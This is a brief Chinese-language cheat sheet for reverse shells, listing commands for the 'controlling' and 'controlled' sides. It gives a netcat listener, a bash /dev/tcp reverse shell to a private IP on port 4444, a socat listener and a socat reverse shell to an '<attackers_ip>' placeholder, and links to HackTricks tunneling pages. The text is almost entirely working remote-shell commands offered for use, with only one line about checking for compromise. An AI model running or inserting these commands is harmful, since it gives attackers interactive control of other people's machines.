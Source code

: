 ## 控制端 （被控端连上以后，就可以操作被控端了）

    nc -vnlp 4444

## 被控端

    bash -i >& /dev/tcp/192.168.1.53/4444 0>&1

## 检查是否被远控

    netcat -antup

## 介绍

    https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#reverse-shell

## 控制端

    socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0

## 被控端

    socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

## socat ssl tunnel

    https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#ssl-socat-tunnel


